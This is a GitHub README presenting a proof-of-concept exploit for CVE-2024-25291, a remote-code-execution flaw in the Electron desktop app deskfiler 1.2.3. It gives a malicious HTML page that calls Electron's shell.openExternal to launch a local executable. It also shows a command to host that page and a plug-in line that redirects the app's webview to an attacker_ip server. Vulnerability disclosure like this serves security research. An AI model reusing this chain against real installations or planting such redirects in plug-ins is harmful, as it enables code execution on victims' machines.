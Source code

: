 # DeskFiler RCE

A Proof-Of-Concept for CVE-2024-25291 vulnerability. <br><br>
deskfiler - 1.2.3 allows Electron webview in application, with resultant remote code 
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

#### 1.Vunerability Overview:
 * Vulnerability Subject: Open Redirect via RCE
 * Vulnerability Version: deskfiler-1.2.3
 * Manifestation of the Issue: Electron Webview
 * Attack Type: Remote Code Execution
 * Attack Vectors: To exploit vulnerability, someone must open plug-in.
 * Reserved CVE Number: CVE-2024-25291 

---------------------------------------

#### 2. Vulnerability Cause:
* Exploit explain
  *  In a specific section within the application, a section accessing an external link through a Webview through an electron could be confirmed. Therefore, through this, it is possible to achieve an RCE by connecting to the attacker's server

Proof-of-concept (POC)
----------------------
* Step 1) Prepare the attacker's server and make Malicious Plug-in.
```html
<html>
 <head>
 <title>jruru</title>
 </head>
 <body>
 <script>
 const { shell } = require('electron');
 shell.openExternal('file:C:/Windows/System32/calc.exe');
 </script>
 </body>
 </html>
```

※ If you want to test it quickly, create a server on the attacker's PC with the following code.

```py
$ python -m http.server 80
```

**Note:** ※ At this time, it is assumed that the plug-in is a plug-in generated by the attacker, and is only a normal plug-in with a code added to let the attacker server access. BareBone has been selected for simple testing
![deskfiler1](https://github.com/QnA4u/CVE/assets/131337101/b03cddf8-0656-4b14-8dbc-807e40673730)

Afterward, add the following code to the index.js file in the BareBone folder path.
```py
window.location='http://[attacker_ip]/hack.html'
```

* Step 2) On the victim's server, execute Deskfiler and install the BareBone plugin through "Add new plugin."
![deskfiler2](https://github.com/QnA4u/CVE/assets/131337101/5b351a9d-7fdd-4b89-b73b-7bfd01f3d9a4)

![deskfiler3](https://github.com/QnA4u/CVE/assets/131337101/059ed94e-df61-4c78-800d-60e8db442696)

---------------------------------------

### 3. Additional Information
 In this PoC, we utilized a plug-in; however, we believe that with alternative attack vectors, achieving Remote Code Execution (RCE) independently is possible. Additionally, if server-side vulnerabilities such as Stored XSS, Reflected XSS, exist, RCE is also considered feasible.

